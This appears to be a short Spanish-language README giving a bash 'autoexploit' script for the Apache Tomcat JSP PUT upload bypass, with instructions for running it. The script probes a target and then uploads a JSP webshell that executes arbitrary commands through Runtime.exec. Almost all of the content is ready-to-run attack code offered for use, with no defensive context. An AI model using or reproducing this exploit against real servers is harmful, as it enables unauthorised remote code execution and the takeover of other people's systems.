 Código autoexploit. Colocar dentro de un archivo **.sh** y otorgar permisos de ejecución con `chmod +x autoexploit.sh`.

```bash
#!/bin/bash

target=$1
port=$2

if [[ $1 || $2 ]]; then
	echo -e "\n[*] Checking whether target is vulnerable...";
	isvuln=$(curl -X PUT -s http://$target:$port/check.jsp/ && echo "VULNERABLE")
	if [[ $isvuln -eq "VULNERABLE" ]];then
		
		echo -e "\n[+] $target:$port vulnerable to JSP Upload Bypass";

		$(curl -X PUT -s --data '<FORM METHOD=GET ACTION='poc.jsp'> <INPUT name='cmd' type=text> <INPUT type=submit value='Run'> </FORM> <%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new  InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+"</br>"; }} catch(IOException e) { e.printStackTrace(); }} %> <pre><%=output %></pre>' http://$target:$port/poc.jsp/) && echo -e "\n[SUCCESS] webshell uploaded\n\n[+] Webshell working at http://$target:$port/poc.jsp"
		
	else
		echo "$target:$port IS NOT VULNERABLE"

	fi

	curl -X DELETE -s http://$target:$port/check.jsp/

else
	echo 'use: ./autoexploit_tomcat <target-ip> <target-port>'
fi
```

Ejecución de autoexploit.

```bash
**./autoexploit.sh** *TARGET_IP PORT*
```
